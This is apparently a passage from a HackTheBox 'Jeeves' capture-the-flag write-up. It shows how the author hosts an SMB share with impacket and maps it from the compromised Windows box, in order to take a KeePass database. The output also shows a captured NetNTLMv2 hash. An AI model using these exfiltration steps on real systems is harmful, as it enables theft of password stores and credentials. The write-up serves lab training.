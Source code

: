 In the `Documents` directory, I find a single file which is a [KeePass](https://keepass.info/) database.

I will copy this to my box using `impacket-smbserver`.

I will create a share called `george` in my current working directory

```sh
┌─[✗]─[george@parrot]─[~/HTB/jeeves/www]
└──╼ $ sudo impacket-smbserver george $(pwd)
[sudo] password for george:
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
On the `Jeeves` box I will connect to my share using below `PowerShell` command

```lua
PS C:\Users\kohsuke\documents> New-PSDrive -Name "gee" -PSProvider "FileSystem" -Root "\\10.10.16.7\george"

Name           Used (GB)     Free (GB) Provider      Root                                               CurrentLocation
----           ---------     --------- --------      ----                                               ---------------
gee                                    FileSystem    \\10.10.16.7\george                                               


PS C:\Users\kohsuke\documents>
```
And we are Connected

```sh
┌─[✗]─[george@parrot]─[~/HTB/jeeves/www]
└──╼ $
=====================snip======================================
[*] Incoming connection (10.10.10.63,49681)
[*] AUTHENTICATE_MESSAGE (JEEVES\kohsuke,JEEVES)
[*] User JEEVES\kohsuke authenticated successfully
[*] kohsuke::JEEVES:aaaaaaaaaaaaaaaa:8f12d4d120db95be6bb16de8dbe0ed90:01010000000000008071142910f4d901e02849cc377fdc6400000000010010006100460064004100610070004c007100030010006100460064004100610070004c00710002001000700053004100480041006a006200610004001000700053004100480041006a0062006100070008008071142910f4d90106000400020000000800300030000000000000000000000000300000880753dd00bb66b827bd8285bc20c788fb2d5a22718e578603f93fed5bdd4a2a0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310036002e003700000000000000000000000000
[*] Disconnecting Share(1:GEORGE)
[*] Closing down connection (10.10.10.63,49681)
[*] Remaining connections []
```
I will now switch directories and copy that `KeePass` database here
